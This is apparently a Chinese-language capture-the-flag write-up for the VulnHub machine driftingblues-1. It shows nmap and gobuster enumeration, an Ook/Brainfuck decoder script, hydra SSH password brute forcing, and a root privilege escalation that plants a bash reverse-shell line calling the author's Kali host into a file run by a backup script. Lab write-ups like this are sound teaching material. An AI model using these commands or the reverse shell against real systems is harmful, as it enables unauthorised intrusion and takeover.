# 目标

get **flags**

---

# 1.信息收集
## 1.1 主机发现
```shell
nmap -sn --max-rate 10000 192.168.64.0/24
```

靶机的IP地址是：`192.168.64.30`

## 1.2 端口扫描
**SYN扫描**
```shell
nmap -sS -sV -Pn -p- --max-rate 10000 192.168.64.30 -oA nmap-scan/syn
```


**TCP Connect扫描**
```shell
nmap -sT -sV -Pn -p- --max-rate 10000 192.168.64.30 -oA nmap-scan/tcp
```


**UDP扫描**
```shell
nmap -sU -sV -Pn --top-ports 100 --max-rate 10000 192.168.64.30 -oA nmap-scan/udp
```


**nmap内置默认脚本扫描**
```shell
nmap -sV -sC -Pn -O -p 22,80,2 192.168.64.30 -oA nmap-scan/default
```


**nmap内置漏洞脚本扫描**
```shell
nmap -sV --script vuln -Pn -O -p 22,80,2 192.168.64.30 -oA nmap-scan/vuln
```
有很多信息。

## 1.3 22端口
```shell
nmap -sV --script ssh-auth-methods.nse,ssh-hostkey.nse -p 22 192.168.64.30
```


## 1.4 80端口
**访问`http://192.168.64.30`**

查看网页源码，有如下信息，

尝试着使用base64解码，
```shell
echo -n 'L25vdGVmb3JraW5nZmlzaC50eHQ=' | base64 -d
```


**识别是否是某种CMS**
```shell
whatweb http://192.168.64.30
```


**网站目录/文件扫描**
```shell
gobuster dir --url http://192.168.64.30 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip,git,html,txt,php -db
```


**访问`http://192.168.64.30/img`**

很多图片，可以考虑图片隐写。图片太多，并且图片名也没什么特殊，先不尝试。

**访问`http://192.168.64.30//secret.html`**

意思是让我们深入挖掘？

**访问`http://192.168.64.30/noteforkingfish.txt`**

看着像是某种加密。可以去网上搜一搜，一种Brainfuck的变种，将内容保存在brainfuck.txt文件中，使用下面的python代码解码：
```python
import re
def ook_to_brainfuck(ook_code):
    """
    第一步：将 Ook! 代码转换为等价的 Brainfuck 代码
    """
    symbols = re.findall(r'[.\!?]', ook_code)
    mapping = {
        ('.', '.'): '+',
        ('!', '!'): '-',
        ('.', '?'): '>',
        ('?', '.'): '<',
        ('!', '?'): '[',
        ('?', '!'): ']',
        ('!', '.'): '.',
        ('.', '!'): ','
    }
    bf_code = ""
    for i in range(0, len(symbols) - 1, 2):
        pair = (symbols[i], symbols[i+1])
        if pair in mapping:
            bf_code += mapping[pair]  
    return bf_code

def execute_brainfuck(bf_code):
    """
    第二步：执行 Brainfuck 代码并返回字符串结果
    """
    tape = [0] * 30000 
    ptr = 0            
    pc = 0             
    
    loop_map = {}
    stack = []
    for i, char in enumerate(bf_code):
        if char == '[':
            stack.append(i)
        elif char == ']':
            if not stack:
                raise ValueError("语法错误：括号不匹配，多余的 ]")
            start = stack.pop()
            loop_map[start] = i
            loop_map[i] = start
    if stack:
        raise ValueError("语法错误：括号不匹配，缺少闭合的 [ 或者 ]")
    output = []
    while pc < len(bf_code):
        char = bf_code[pc]
        
        if char == '+':
            tape[ptr] = (tape[ptr] + 1) % 256
        elif char == '-':
            tape[ptr] = (tape[ptr] - 1) % 256
        elif char == '>':
            ptr += 1
        elif char == '<':
            ptr -= 1
        elif char == '.':
            output.append(chr(tape[ptr]))
        elif char == '[':
            if tape[ptr] == 0:
                pc = loop_map[pc]
        elif char == ']':
            if tape[ptr] != 0:
                pc = loop_map[pc]   
        pc += 1
    return "".join(output)


if __name__ == "__main__":
    filename = "brainfuck.txt"
    with open(filename, "r", encoding="utf-8") as f:
        ook_text = f.read()
        print("【正在转换代码...】")
        bf = ook_to_brainfuck(ook_text)
        result = execute_brainfuck(bf)
        print("-" * 30)
        print("🎉 最终解密结果如下：\n")
        print(result)
        print("\n" + "-" * 30)
```

/etc/hosts文件是用来解析ip地址的，可能我们应该要去找一个域名去访问，而不是使用ip地址去访问。还提供了一个人名eric. 可能台机器后台做了一个操作，使用ip与使用域名访问的结果不一样（基于域名的虚拟地址）。尝试去寻找一下域名。
可以在默认页面上发现，

域名应该就是：`driftingblues.box`
去/etc/hosts文件里面添加一下，
```shell
echo '192.168.64.30 driftingblues.box' >> /etc/hosts
```
然后扫描一下子域名，
```shell
gobuster vhost -u http://driftingblues.box -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```

扫出来一个，`test.driftingblues.box`, 再到/etc/hosts里面修改，
```text
192.168.64.30 driftingblues.box ➡️ 192.168.64.30 driftingblues.box test.driftingblues.box
```

**访问`http://test.driftingblues.box`**

扫描这个域名下面的目录/文件，
```shell
gobuster dir --url http://test.driftingblues.box --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip,git,html,txt,php,bak -db
```


**访问`http://test.driftingblues.box/robots.txt`**
```text
User-agent: *
Disallow: /ssh_cred.txt
Allow: /never
Allow: /never/gonna
Allow: /never/gonna/give
Allow: /never/gonna/give/up
```

**访问`http://test.driftingblues.box/ssh_cred.txt`**
```text
we can use ssh password in case of emergency. it was "1mw4ckyyucky".
sheryl once told me that she added a number to the end of the password.
-db
```

下面这些文件夹，基本没啥东西
- 访问`http://test.driftingblues.box/never`
- 访问`http://test.driftingblues.box/never/gonna`
- 访问`http://test.driftingblues.box/never/gonna/give`
- 访问`http://test.driftingblues.box/never/gonna/give/up`

---

# 2.建立系统立足点
上面得到了一个ssh密码，那得找到用户名，去前面所看到过的内容里面找一下吧，我大概找到以下这些，保存为*users.txt*（先用这些小字典攻击，如果不行，后面就上 */usr/share/wordlists/seclists/Usernames/Names/names.txt*）
```text
db
eric
sheryl
```
上面说那个紧急密码后面加有一个数字，现在构造字典*dict.txt*,
```text
1mw4ckyyucky
1mw4ckyyucky0
1mw4ckyyucky1
1mw4ckyyucky2
1mw4ckyyucky3
1mw4ckyyucky4
1mw4ckyyucky5
1mw4ckyyucky6
1mw4ckyyucky7
1mw4ckyyucky8
1mw4ckyyucky9
```
使用hydra跑一下字典
```shell
hydra -L users.txt -P dict.txt ssh://192.168.64.30 -t 4 -V -o success.txt
```
可以破解出，
- username: `eric`
- password: `1mw4ckyyucky6`

**登陆ssh**


---

# 3.系统提权
**得到`user.txt`**


**寻找suid**
```shell
find / -perm -4000 -type f 2>/dev/null
```
查找网站[GTFOBins]()，可以发现，(虽然是sudo，但是可以尝试)


G, 失败了☹️

**寻找关键词文件**
```shell
find / \( -path /sys -o -path /proc -o -path /boot -o -path /lib -o -path /dev -o -path /etc -o -path /usr -o -path /var/lib \) -prune -o -name "*key*" 2>/dev/null
find / \( -path /sys -o -path /proc -o -path /boot -o -path /lib -o -path /dev -o -path /etc -o -path /usr -o -path /var/lib \) -prune -o -name "*pass*" 2>/dev/null
find / \( -path /sys -o -path /proc -o -path /boot -o -path /lib -o -path /dev -o -path /etc -o -path /usr -o -path /var/lib \) -prune -o -name "*bak*" 2>/dev/null
find / \( -path /sys -o -path /proc -o -path /boot -o -path /lib -o -path /dev -o -path /etc -o -path /usr -o -path /var/lib \) -prune -o -name "*back*" 2>/dev/null
```
总共发现下面这些可疑的内容，
```text
/var/backups/backup.sh
/tmp/backup.zip
```
去看看 */var/backups/backup.sh*,

先去看看有没有/tmp/emergency这个可执行文件，
没有这个文件，创建一个这个文件，
```shell
touch /tmp/emergency
chmod 777 /tmp/emergency
```
然后加入如下内容,
```shell
echo '#!/bin/bash' > /tmp/emergency
echo 'bash -i >& /dev/tcp/192.168.64.2/4444 0>&1' >> /tmp/emergency
```
在kali上面执行：
```shell
nv -lvnp 4444
```
然后等一会, 结果如下：



---
---

# 硬件与软件平台
## 硬件
- Apple Macbook pro M1-Pro `32G 512G`
- `macOS 14.8.5`
- `UTM虚拟机平台`

## 软件
kali
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- `Arm64`

靶机driftingblues-1: 
- `https://www.vulnhub.com/entry/driftingblues-1,625/`
- IP: `192.168.64.30`

---

> 水平有限，有不足、错误之处欢迎指出。🧐